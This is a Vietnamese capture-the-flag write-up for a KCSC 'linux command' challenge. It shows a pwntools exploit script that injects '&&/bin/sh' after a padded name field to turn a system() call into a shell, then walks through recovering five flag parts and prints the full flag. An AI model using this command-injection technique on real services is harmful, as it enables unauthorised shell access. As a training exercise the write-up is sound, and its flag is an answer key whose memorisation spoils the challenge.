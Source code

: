 # linux command.
## Hướng Giải.
![1702828821008](image/linuxcommand/1702828821008.png)
- Bước đầu tiên là ta sẽ phải lấy đc shell bằng cách cho `system` thực thi `/bin/sh` sau đấy ta mới bắt đầuu kiếm `flag` :>> .
- Check sơ qua source thì ta đc nhập vào biến `command` với size là 31 byte và `qmemcpy()` nó sẽ làm gì đấy với chuỗi `echo \"Welcom to KCSC\""` với size là 22 byte , tiếp theo là nó sẽ thực thi `system`.
- Cùng vào GDB debug xem `qmemcpy()` nó làm gì nhé :>> .
![1702829185325](image/linuxcommand/1702829185325.png)
- Mình thử nhập vào đây 25 byte.
![1702829259992](image/linuxcommand/1702829259992.png)
- Bạn có thể thấy `qmemcpy()` nó đã nhét chuỗi  `echo \"Welcom to KCSC\""` vào đầu biến `command` mà mình vừa nhập , đồng nghĩa với việc `system` sẽ bị cố định thực hiện câu lệnh trên, để `system` có thể thực thi `/bin/sh` ta có thể xài cách dể có thể `thực thi 2 lệnh cùng 1 command`, để làm đc vậy ta có thể xài `;` , `&&` hoặc `||`. Oke có hướng giải r ta tiến hành lấy shell nhaa.
```
#!/usr/bin/python3

from pwn import *

exe = ELF('chall', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*main+115
                b*main+172
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('103.162.14.116', 12009)
else:
        p = process(exe.path)

GDB()
payload = b'a'*22 + b'&&' + b'/bin/sh\x00'
sla(b"What is your name: ",payload)

p.interactive()
```
- Script của tớ sẽ như trên.
![1702829743542](image/linuxcommand/1702829743542.png)
- Ta đã lấy đc shell rồi , việc của mình là kiếm flag thui ( flag có  phần ).
- part 1 ở trong hàm `hidden` .
![1702829810616](image/linuxcommand/1702829810616.png)
- part 2 trong file `part_2` mình chỉ việc `cat` là ra.
![1702829889158](image/linuxcommand/1702829889158.png)
- part 3 trong file `part 3 in here` mình chỉ việc `cat` là ra.
![1702829923289](image/linuxcommand/1702829923289.png)
- part 4 là file bị ẩn ta chỉ cần xài lệnh `ls -al` và cat là ra.
![1702829984396](image/linuxcommand/1702829984396.png)
- part 5 đc hint ở trong part 4 là hãy `cat --help` , nhưng khi thử `cat --help` thì nó ra thế này :
![1702830052266](image/linuxcommand/1702830052266.png)
- Nó là bảng hướng dẫn mình chỉ cần `cat ./--help` là đc :))). 
- ![1702830093437](image/linuxcommand/1702830093437.png)

`FLAG: KCSC{Linux_Commands_You_MUST_Know_bc6680c1a0d13d77_8d73c59185b1e412}`